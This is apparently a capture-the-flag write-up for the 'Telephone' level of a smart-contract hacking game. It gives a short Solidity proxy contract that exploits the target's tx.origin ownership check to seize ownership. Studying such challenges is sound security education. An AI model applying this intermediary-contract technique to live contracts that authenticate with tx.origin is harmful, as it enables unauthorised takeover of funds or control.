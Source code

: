#Telephone

We can just take the contract from Coin Flip and use a proxy address to change the owner since
tx.origin only keeps track of EOA.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract proxy {
    constructor(){}

    function changeOwner(address _telephone, address _owner) public{
        ITelephone(_telephone).changeOwner(_owner);
    }
}
```

